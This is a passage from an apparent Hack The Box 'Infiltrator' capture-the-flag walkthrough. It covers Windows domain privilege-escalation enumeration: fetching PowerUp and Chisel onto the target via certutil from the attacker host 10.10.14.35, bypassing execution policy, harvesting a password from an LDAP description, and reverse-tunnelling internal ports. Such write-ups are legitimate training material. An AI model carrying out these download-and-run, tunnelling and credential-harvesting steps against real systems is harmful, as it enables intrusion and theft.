┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Point and Print configuration                     ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the Print Spooler service is enabled and if    ┃
┃ the Point and Print configuration allows non-administrator   ┃
┃ users to install printer drivers.                            ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)


Description : The Print Spooler service is disabled.


┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ COM server registry permissions                   ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has any modification rights   ┃
┃ on a COM server in the registry. This may not necessarily    ┃
┃ result in a privilege escalation. Further analysis is        ┃
┃ required.                                                    ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ COM server image file permissions                 ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether the current user has any modification rights   ┃
┃ on a COM server module file. This may not necessarily result ┃
┃ in a privilege escalation. Further analysis is required.     ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
[*] Status: Informational (not vulnerable)
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ COM server ghost DLLs                             ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Check whether there are COM servers registered with a        ┃
┃ non-existent module using a relative path. This may not      ┃
┃ necessarily result in a privilege escalation. You would also ┃
┃ need to have rights to create files in a PATH folder.        ┃
┃ Further analysis is required.                                ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
```

</details>

Interesting software found: `Output Messenger`

```
Name        : OutputMessengerApache
DisplayName : Output Messenger - Apache
ImagePath   : "C:\Program Files\Output Messenger Server\Plugins\Output\apache2\bin\outputmessenger_httpd.exe" -k runservice
User        : LocalSystem
StartMode   : Automatic

Name        : OutputMessengerMySQL
DisplayName : Output Messenger - MySQL
ImagePath   : "C:\Program Files\Output Messenger Server\Plugins\Output\mysql\bin\outputmessenger_mysqld.exe" "--defaults-file=C:\Program Files\Output Messenger Server\Plugins\Output\mysql\my.ini" "OutputMessengerMySQL"
User        : LocalSystem
StartMode   : Automatic

Name        : OutputMessengerServer
DisplayName : Output Messenger Server
ImagePath   : "C:\Program Files\Output Messenger Server\OMServerService.exe"
User        : LocalSystem
StartMode   : Automatic
```

### 6.2. PowerUp

#### Prepare Kali

```sh
curl -Lo /var/www/html/Get-System.ps1 https://github.com/PowerShellMafia/PowerSploit/raw/master/Privesc/Get-System.ps1
curl -Lo /var/www/html/PowerUp.ps1 https://github.com/PowerShellMafia/PowerSploit/raw/master/Privesc/PowerUp.ps1
curl -Lo /var/www/html/Privesc.psd1 https://github.com/PowerShellMafia/PowerSploit/raw/master/Privesc/Privesc.psd1
curl -Lo /var/www/html/Privesc.psm1 https://github.com/PowerShellMafia/PowerSploit/raw/master/Privesc/Privesc.psm1
```

#### Download and run on target

```cmd
*Evil-WinRM* PS C:\Users\M.harris\Documents> certutil.exe -urlcache -f -split http://10.10.14.35/Get-System.ps1
****  Online  ****
  0000  ...
  6890
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Users\M.harris\Documents> certutil.exe -urlcache -f -split http://10.10.14.35/PowerUp.ps1
****  Online  ****
  000000  ...
  092a04
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Users\M.harris\Documents> certutil.exe -urlcache -f -split http://10.10.14.35/Privesc.psd1
****  Online  ****
  0000  ...
  067b
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Users\M.harris\Documents> certutil.exe -urlcache -f -split http://10.10.14.35/Privesc.psm1
****  Online  ****
  0000  ...
  0043
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Users\M.harris\Documents> Set-ExecutionPolicy Bypass -Scope CurrentUser
*Evil-WinRM* PS C:\Users\M.harris\Documents> Import-Module .\Privesc.psm1
*Evil-WinRM* PS C:\Users\M.harris\Documents> Invoke-AllChecks
Access denied
At C:\Users\M.harris\Documents\PowerUp.ps1:2066 char:21
+     $VulnServices = Get-WmiObject -Class win32_service | Where-Object ...
+                     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [Get-WmiObject], ManagementException
    + FullyQualifiedErrorId : GetWMIManagementException,Microsoft.PowerShell.Commands.GetWmiObjectCommand
Access denied
At C:\Users\M.harris\Documents\PowerUp.ps1:2133 char:5
+     Get-WMIObject -Class win32_service | Where-Object {$_ -and $_.pat ...
+     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [Get-WmiObject], ManagementException
    + FullyQualifiedErrorId : GetWMIManagementException,Microsoft.PowerShell.Commands.GetWmiObjectCommand
Cannot open Service Control Manager on computer '.'. This operation might require other privileges.
At C:\Users\M.harris\Documents\PowerUp.ps1:2189 char:5
+     Get-Service | Test-ServiceDaclPermission -PermissionSet 'ChangeCo ...
+     ~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Get-Service], InvalidOperationException
    + FullyQualifiedErrorId : System.InvalidOperationException,Microsoft.PowerShell.Commands.GetServiceCommand
Access is denied
At C:\Users\M.harris\Documents\PowerUp.ps1:857 char:43
+ ...                 if ($ParentPath -and (Test-Path -Path $ParentPath)) {
+                                           ~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Program File...\Output\apache2:String) [Test-Path], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.TestPathCommand
Access is denied
At C:\Users\M.harris\Documents\PowerUp.ps1:857 char:43
+ ...                 if ($ParentPath -and (Test-Path -Path $ParentPath)) {
+                                           ~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Program File...\Plugins\Output:String) [Test-Path], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.TestPathCommand
Access is denied
At C:\Users\M.harris\Documents\PowerUp.ps1:857 char:43
+ ...                 if ($ParentPath -and (Test-Path -Path $ParentPath)) {
+                                           ~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Program File...ns\Output\mysql:String) [Test-Path], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.TestPathCommand


ModifiablePath    : C:\Users\M.harris\AppData\Local\Microsoft
IdentityReference : INFILTRATOR\M.harris
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\M.harris\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\M.harris\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\M.harris\AppData\Local\Microsoft\wlbsctrl.dll'

DefaultDomainName    : INFILTRATOR
DefaultUserName      : Administrator
DefaultPassword      :
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :
Check                : Registry Autologons
```

### 6.3. Finding another way

The PowerUp and PrivescCheck didn't reveal much, let's go check the users again

```console
root@kali:~# netexec ldap infiltrator.htb -u l.clark -p 'WAT?watismypass!' --users
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.31     389    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass!
LDAP        10.10.11.31     389    DC01             [*] Enumerated 12 domain users: infiltrator.htb
LDAP        10.10.11.31     389    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-
LDAP        10.10.11.31     389    DC01             Administrator                 2024-08-21 19:58:28 0       Built-in account for administering the computer/domain
LDAP        10.10.11.31     389    DC01             Guest                         <never>             1       Built-in account for guest access to the computer/domain
LDAP        10.10.11.31     389    DC01             krbtgt                        2023-12-04 17:36:16 1       Key Distribution Center Service Account
LDAP        10.10.11.31     389    DC01             D.anderson                    2023-12-04 18:56:02 0
LDAP        10.10.11.31     389    DC01             L.clark                       2023-12-04 19:04:24 0
LDAP        10.10.11.31     389    DC01             M.harris                      2024-12-27 01:27:07 0
LDAP        10.10.11.31     389    DC01             O.martinez                    2024-02-25 15:41:03 0
LDAP        10.10.11.31     389    DC01             A.walker                      2023-12-05 22:06:28 1
LDAP        10.10.11.31     389    DC01             K.turner                      2024-02-25 15:40:35 1       MessengerApp@Pass!
LDAP        10.10.11.31     389    DC01             E.rodriguez                   2024-12-27 01:26:52 0
LDAP        10.10.11.31     389    DC01             winrm_svc                     2024-08-02 22:42:45 0
LDAP        10.10.11.31     389    DC01             lan_managment                 2024-08-02 22:42:46 0
```

It seems account `K.turner` has a rather cryptic description `MessengerApp@Pass!`

It doesn't seem feasible to login with `k.turner`/`MessengerApp@Pass!`

```console
root@kali:~# crackmapexec smb dc01.infiltrator.htb -u k.turner -p 'MessengerApp@Pass!' -d infiltrator.htb
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\k.turner:MessengerApp@Pass! STATUS_LOGON_FAILURE
```

Let's go back to `m.harris`'s session and try [RunasCs](https://github.com/antonioCoco/RunasCs)

Prepare RunasCs in Kali:

```sh
VERSION=$(curl -sI https://github.com/antonioCoco/RunasCs/releases/latest | grep location: | cut -d / -f 8 | tr -d '\r' | tr -d 'v')
curl -sLO https://github.com/antonioCoco/RunasCs/releases/download/v$VERSION/RunasCs.zip
unzip RunasCs.zip
mv RunasCs.exe /var/www/html
```

Try to RunasCs with `k.turner`/`MessengerApp@Pass!` (fail):

``` cmd
*Evil-WinRM* PS C:\Users\M.harris\Documents> .\RunasCs.exe k.turner MessengerApp@Pass! whoami
[-] RunasCsException: LogonUser failed with error code: The user name or password is incorrect
```

Let's see what ports are the target listening on

```cmd
*Evil-WinRM* PS C:\Users\M.harris\Documents> netstat -ano | findstr LISTENING
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       892
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       892
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       64
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       2368
  TCP    0.0.0.0:14118          0.0.0.0:0              LISTENING       7628
  TCP    0.0.0.0:14119          0.0.0.0:0              LISTENING       7628
  TCP    0.0.0.0:14121          0.0.0.0:0              LISTENING       7628
  TCP    0.0.0.0:14122          0.0.0.0:0              LISTENING       7628
  TCP    0.0.0.0:14123          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:14125          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:14126          0.0.0.0:0              LISTENING       6092
  TCP    0.0.0.0:14127          0.0.0.0:0              LISTENING       7628
  TCP    0.0.0.0:14128          0.0.0.0:0              LISTENING       7628
  TCP    0.0.0.0:14130          0.0.0.0:0              LISTENING       7628
  TCP    0.0.0.0:14406          0.0.0.0:0              LISTENING       7392
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       496
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1272
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1644
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       2256
  TCP    0.0.0.0:49690          0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:49691          0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:49694          0.0.0.0:0              LISTENING       624
  TCP    0.0.0.0:49709          0.0.0.0:0              LISTENING       616
  TCP    0.0.0.0:49722          0.0.0.0:0              LISTENING       2168
  TCP    0.0.0.0:49735          0.0.0.0:0              LISTENING       1640
  TCP    0.0.0.0:50024          0.0.0.0:0              LISTENING       2812
⋮
```

#### 6.3.1. Establish Chisel connection

Start chisel listener on Kali

```console
root@kali:~# chisel server --reverse --port 8080
2024/12/26 16:15:28 server: Reverse tunnelling enabled
2024/12/26 16:15:28 server: Fingerprint vVivkFQEORVV0Q95jbdroyZ1gDi6pZcpIhGkXFstJlU=
2024/12/26 16:15:28 server: Listening on http://0.0.0.0:8080
```

Download Windows Chisel to Kali web server

```sh
VERSION=$(curl -sI https://github.com/jpillora/chisel/releases/latest | grep location: | cut -d / -f 8 | tr -d '\r' | tr -d 'v')
curl -sLO https://github.com/jpillora/chisel/releases/download/v$VERSION/chisel_${VERSION}_windows_amd64.gz
gzip -d chisel_${VERSION}_windows_amd64.gz
mv chisel_${VERSION}_windows_amd64 /var/www/html/chisel.exe
```

On Target:

```cmd
*Evil-WinRM* PS C:\Users\M.harris\Documents> certutil.exe -urlcache -f -split http://10.10.14.35/chisel.exe
****  Online  ****
  000000  ...
  94f000
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Users\M.harris\Documents> .\chisel.exe client 10.10.14.35:8080 R:14118:127.0.0.1:14118 R:14119:127.0.0.1:14119 R:14121:127.0.0.1:14121 R:14122:127.0.0.1:14122 R:14123:127.0.0.1:14123 R:14125:127.0.0.1:14125 R:14126:127.0.0.1:14126 R:14127:127.0.0.1:14127 R:14128:127.0.0.1:14128 R:14130:127.0.0.1:14130 R:14406:127.0.0.1:14406
chisel.exe : 2024/12/26 06:06:17 client: Connecting to ws://10.10.14.35:8080
    + CategoryInfo          : NotSpecified: (2024/12/26 06:0...0.10.14.35:8080:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2024/12/26 06:06:17 client: Connected (Latency 5.6289ms)
```

Kali should show connected:

```
2024/12/26 22:06:17 server: session#1: Client version (1.10.1) differs from server version (1.10.1-0kali1)
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14118=>14118: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14119=>14119: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14121=>14121: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14122=>14122: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14123=>14123: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14125=>14125: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14126=>14126: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14127=>14127: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14128=>14128: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14130=>14130: Listening
2024/12/26 22:06:17 server: session#1: tun: proxy#R:14406=>14406: Listening
```

#### 6.3.2. Exploring

Do a nmap scan on the mapped ports:

```console
root@kali:~# nmap -Pn -p 14118,14119,14121,14122,14123,14125,14126,14127,14128,14130,14406 -A 127.0.0.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-26 22:07 +08
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000078s latency).

PORT      STATE SERVICE     VERSION
14118/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=Output Messenger/organizationName=Srimax/stateOrProvinceName=Tamil Nadu/countryName=IN
| Not valid before: 2016-04-14T10:22:17
|_Not valid after:  2066-04-02T10:22:17
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe:
|_    Ouput Messenger Server - Switching Server V2.0.42.0
|_ssl-date: 2024-12-26T14:11:54+00:00; -1s from scanner time.
14119/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=Output Messenger/organizationName=Srimax/stateOrProvinceName=Tamil Nadu/countryName=IN
| Not valid before: 2016-04-14T10:22:17
|_Not valid after:  2066-04-02T10:22:17
|_ssl-date: 2024-12-26T14:11:54+00:00; -1s from scanner time.
14121/tcp open  unknown
14122/tcp open  unknown
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe:
|_    Ouput Messenger Server - Switching Server V2.0.42.0
14123/tcp open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| http-title: Output Messenger
|_Requested resource was http://localhost:14123/ombro/index.html
14125/tcp open  http        Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
|_http-server-header: Microsoft-HTTPAPI/2.0
14126/tcp open  http        Apache httpd 2.4.9 ((Win32) PHP/5.5.12)
|_http-title: Index of /
|_http-server-header: Apache/2.4.9 (Win32) PHP/5.5.12
| http-methods:
|_  Potentially risky methods: TRACE
14127/tcp open  unknown
14128/tcp open  unknown
14130/tcp open  unknown
14406/tcp open  mysql       MySQL 5.5.5-10.1.19-MariaDB
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.1.19-MariaDB
|   Thread ID: 5
|   Capabilities flags: 63487
|   Some Capabilities: Support41Auth, SupportsTransactions, FoundRows, ConnectWithDatabase, LongColumnFlag, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, SupportsCompression, ODBCClient, LongPassword, IgnoreSigpipes, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, Speaks41ProtocolNew, InteractiveClient, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: M?4'dFmu%QLiM$jl_vT"
|_  Auth Plugin Name: mysql_native_password
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port14118-TCP:V=7.94SVN%T=SSL%I=7%D=12/26%Time=676D635A%P=x86_64-pc-lin
SF:ux-gnu%r(GenericLines,33,"Ouput\x20Messenger\x20Server\x20-\x20Switchin
SF:g\x20Server\x20V2\.0\.42\.0")%r(GetRequest,33,"Ouput\x20Messenger\x20Se
SF:rver\x20-\x20Switching\x20Server\x20V2\.0\.42\.0")%r(HTTPOptions,33,"Ou
SF:put\x20Messenger\x20Server\x20-\x20Switching\x20Server\x20V2\.0\.42\.0"
SF:)%r(RTSPRequest,33,"Ouput\x20Messenger\x20Server\x20-\x20Switching\x20S
SF:erver\x20V2\.0\.42\.0")%r(RPCCheck,33,"Ouput\x20Messenger\x20Server\x20
SF:-\x20Switching\x20Server\x20V2\.0\.42\.0")%r(DNSVersionBindReqTCP,33,"O
SF:uput\x20Messenger\x20Server\x20-\x20Switching\x20Server\x20V2\.0\.42\.0
SF:")%r(DNSStatusRequestTCP,33,"Ouput\x20Messenger\x20Server\x20-\x20Switc
SF:hing\x20Server\x20V2\.0\.42\.0")%r(Help,33,"Ouput\x20Messenger\x20Serve
SF:r\x20-\x20Switching\x20Server\x20V2\.0\.42\.0")%r(SSLSessionReq,33,"Oup
SF:ut\x20Messenger\x20Server\x20-\x20Switching\x20Server\x20V2\.0\.42\.0")
SF:%r(TerminalServerCookie,33,"Ouput\x20Messenger\x20Server\x20-\x20Switch
SF:ing\x20Server\x20V2\.0\.42\.0")%r(TLSSessionReq,33,"Ouput\x20Messenger\
SF:x20Server\x20-\x20Switching\x20Server\x20V2\.0\.42\.0")%r(Kerberos,33,"
SF:Ouput\x20Messenger\x20Server\x20-\x20Switching\x20Server\x20V2\.0\.42\.
SF:0")%r(SMBProgNeg,33,"Ouput\x20Messenger\x20Server\x20-\x20Switching\x20
SF:Server\x20V2\.0\.42\.0")%r(X11Probe,33,"Ouput\x20Messenger\x20Server\x2
SF:0-\x20Switching\x20Server\x20V2\.0\.42\.0")%r(FourOhFourRequest,33,"Oup
SF:ut\x20Messenger\x20Server\x20-\x20Switching\x20Server\x20V2\.0\.42\.0")
SF:%r(LPDString,33,"Ouput\x20Messenger\x20Server\x20-\x20Switching\x20Serv
SF:er\x20V2\.0\.42\.0")%r(LDAPSearchReq,33,"Ouput\x20Messenger\x20Server\x
SF:20-\x20Switching\x20Server\x20V2\.0\.42\.0")%r(LDAPBindReq,33,"Ouput\x2
SF:0Messenger\x20Server\x20-\x20Switching\x20Server\x20V2\.0\.42\.0")%r(SI
SF:POptions,33,"Ouput\x20Messenger\x20Server\x20-\x20Switching\x20Server\x
SF:20V2\.0\.42\.0")%r(LANDesk-RC,33,"Ouput\x20Messenger\x20Server\x20-\x20
SF:Switching\x20Server\x20V2\.0\.42\.0")%r(TerminalServer,33,"Ouput\x20Mes
SF:senger\x20Server\x20-\x20Switching\x20Server\x20V2\.0\.42\.0")%r(NCP,33
SF:,"Ouput\x20Messenger\x20Server\x20-\x20Switching\x20Server\x20V2\.0\.42
SF:\.0");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port14122-TCP:V=7.94SVN%I=7%D=12/26%Time=676D6340%P=x86_64-pc-linux-gnu
SF:%r(GenericLines,33,"Ouput\x20Messenger\x20Server\x20-\x20Switching\x20S
SF:erver\x20V2\.0\.42\.0")%r(GetRequest,33,"Ouput\x20Messenger\x20Server\x
SF:20-\x20Switching\x20Server\x20V2\.0\.42\.0")%r(HTTPOptions,33,"Ouput\x2
SF:0Messenger\x20Server\x20-\x20Switching\x20Server\x20V2\.0\.42\.0")%r(RT
SF:SPRequest,33,"Ouput\x20Messenger\x20Server\x20-\x20Switching\x20Server\
SF:x20V2\.0\.42\.0")%r(RPCCheck,33,"Ouput\x20Messenger\x20Server\x20-\x20S
SF:witching\x20Server\x20V2\.0\.42\.0")%r(DNSVersionBindReqTCP,33,"Ouput\x
SF:20Messenger\x20Server\x20-\x20Switching\x20Server\x20V2\.0\.42\.0")%r(D
SF:NSStatusRequestTCP,33,"Ouput\x20Messenger\x20Server\x20-\x20Switching\x
SF:20Server\x20V2\.0\.42\.0")%r(Help,33,"Ouput\x20Messenger\x20Server\x20-
SF:\x20Switching\x20Server\x20V2\.0\.42\.0")%r(SSLSessionReq,33,"Ouput\x20
SF:Messenger\x20Server\x20-\x20Switching\x20Server\x20V2\.0\.42\.0")%r(Ter
SF:minalServerCookie,33,"Ouput\x20Messenger\x20Server\x20-\x20Switching\x2
SF:0Server\x20V2\.0\.42\.0")%r(TLSSessionReq,33,"Ouput\x20Messenger\x20Ser
SF:ver\x20-\x20Switching\x20Server\x20V2\.0\.42\.0")%r(Kerberos,33,"Ouput\
SF:x20Messenger\x20Server\x20-\x20Switching\x20Server\x20V2\.0\.42\.0")%r(
SF:SMBProgNeg,33,"Ouput\x20Messenger\x20Server\x20-\x20Switching\x20Server
SF:\x20V2\.0\.42\.0")%r(X11Probe,33,"Ouput\x20Messenger\x20Server\x20-\x20
SF:Switching\x20Server\x20V2\.0\.42\.0")%r(FourOhFourRequest,33,"Ouput\x20
SF:Messenger\x20Server\x20-\x20Switching\x20Server\x20V2\.0\.42\.0")%r(LPD
SF:String,33,"Ouput\x20Messenger\x20Server\x20-\x20Switching\x20Server\x20
SF:V2\.0\.42\.0")%r(LDAPSearchReq,33,"Ouput\x20Messenger\x20Server\x20-\x2
SF:0Switching\x20Server\x20V2\.0\.42\.0")%r(LDAPBindReq,33,"Ouput\x20Messe
SF:nger\x20Server\x20-\x20Switching\x20Server\x20V2\.0\.42\.0")%r(SIPOptio
SF:ns,33,"Ouput\x20Messenger\x20Server\x20-\x20Switching\x20Server\x20V2\.
SF:0\.42\.0")%r(LANDesk-RC,33,"Ouput\x20Messenger\x20Server\x20-\x20Switch
SF:ing\x20Server\x20V2\.0\.42\.0")%r(TerminalServer,33,"Ouput\x20Messenger
SF:\x20Server\x20-\x20Switching\x20Server\x20V2\.0\.42\.0")%r(NCP,33,"Oupu
SF:t\x20Messenger\x20Server\x20-\x20Switching\x20Server\x20V2\.0\.42\.0");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Network Distance: 0 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 245.83 seconds
```

`k.turner`/`MessengerApp@Pass!` is found to be valid credentials for the Output Messenger app


Nothing much found other than some idle banter among the devs

`14125` is the [web API](https://support.outputmessenger.com/authentication-api/) for Output Messenger, doesn't seem to have anything here

```console
root@kali:~# curl http://localhost:14125/
{"Message":"No HTTP resource was found that matches the request URI 'http://localhost:14125/'.","MessageDetail":"No route data was found for this request."}
root@kali:~# curl http://localhost:14125/api/users
{"Message":"Request is missing authorization token."}
```

`14126` is the [Apache web Server](https://support.outputmessenger.com/configuring-server-using-server-manager/) for Output Messenger, doesn't seem to have anything here either


One thing noticed here is that the "Not Found" for a non-existent URL is different from the "Not Found" in the `/output/` page above


